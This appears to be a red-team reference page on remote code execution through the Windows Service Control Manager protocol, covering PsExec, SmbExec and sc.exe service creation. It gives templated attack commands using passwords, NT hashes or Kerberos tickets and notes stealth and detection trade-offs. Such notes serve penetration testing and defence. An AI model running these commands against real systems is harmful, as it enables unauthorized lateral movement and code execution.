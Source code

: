 ```yaml
---
label: MS-SCMR
---
```


# MS-SCMR: Service Control Manager Remote Protocol

Through the MS-SCMR (RPC) protocol, Windows allows remote communication with another machine's Service Control Manager (SCM). This allows, among other things, remote startup of services on another machine. This capability ultimately allows the user to execute code on another machine (by creating a service), which is the basis for attacks like PsExec and SmbExec.

PsExec and SmbExec are well-known attacks designed to establish a pseudo-interactive "shell" on the target machine. Both attacks require access to SMB share of the target host (445/TCP).

It is worth remembering that remote service creation is a built-in feature of standard `sc.exe`. There is no magic here, it is a standard feature of Windows. Without SMB access, the service will execute, but we cannot provide a malicious binary to the service or receive a response.

## PsExec

> **IMPORTANT**: A user who wants to use PsExec on a remote machine must have read-write access to at least one SMB share. Without remote SMB access, it is not possible to use PsExec.

Linux:

```bash
# Using plaintext password
impacket-psexec $domain/$user:$password@$host

# Using NT hash
impacket-psexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-psexec $domain/$user@$host -k -no-pass
```

Windows ([SysInternals - PsExec.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)):

```powershell
# Using plaintext password
.\PsExec.exe -accepteula -u $user -p $password \\$HOST cmd

# Using Kerberos TGT (in-memory)
.\PsExec.exe -accepteula -u $user \\$HOST cmd
```

PsExec works by writing an `.exe` binary to the writable SMB share on the target host. Then, SCM is called remotely (via RPC) to execute the binary using created service. Binary creates a named pipe accessible via SMB. This named pipe is used by the user to execute commands remotely and read the output. Communication is established via SMB (445/TCP).

> **NOTE**: PsExec leaves artifacts behind on SMB share that require manual cleaning. The uploaded binary is is not automatically removed.

<!-- TODO: Why PsExec runs as SYSTEM -->

## SmbExec

Linux:

```bash
# Using plaintext password
impacket-smbexec $domain/$user:$password@$host

# Using NT hash
impacket-smbexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-smbexec $domain/$user@$host -k -no-pass
```

Unlike PsExec, SmbExec avoids transferring a potentially detectable binary to the target host. The trick is that instead of using a malicious binary, SmbExec launches a new service (using SCM remotely via RPC) with each new command, executes the command in the `binPath` parameter of the service and closes the service. For every command a user type into "shell", a new service is created and the process is repeated. It just executes each desired command as a new service. Output is read via SMB share (445/TCP).

SmbExec is considered as a stealthier alternative to noisy and easy to detect PsExec. Nevertheless, it is important to remember that an event log is created for every command executed (service creation).

> **NOTE**: Each command run by SmbExec is a separate service. Therefore, there is no real session. Loading modules in PowerShell makes no sense. You have to load and call the module in a single command.

## Raw Service Execution (ScExe)

You can use the standard Windows tool `sc.exe` to run a service on a remote machine. It can be a single shell command or, for example, a reverse-shell binary sent over SMB.

Linux (`impacket-services` is basically a Linux port of native `sc.exe`):

```bash
# Using plaintext password
impacket-services $domain/$user:$password@$host [action]

# Using NT hash
impacket-services -hashes :$nt_hash $domain/$user@$host [action]

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-services $domain/$user@$host -k -no-pass [action]

# Actions
list -h
create -h
start -h
stop -h
delete -h
```

> **IMPORTANT**: Watch out for spaces in arguments. They are necessary!

Windows:

```powershell
# Create and start service
sc \\$host create $svc_name binPath= "cmd.exe /c $command" start= auto
sc \\$host start $svc_name

# Stop and delete service
sc \\$host stop $svc_name
sc \\$host delete $svc_name
```

<!-- TODO: Logon type and how to provide credentials to `sc.exe`. -->

## References

* [Rift, _SMBExec: Red Side Analysis](https://rift.stacktitan.com/smbexec/)
* [Boitatech, _SmbExec/ScExec_](https://hacktricks.boitatech.com.br/windows/ntlm/smbexec)
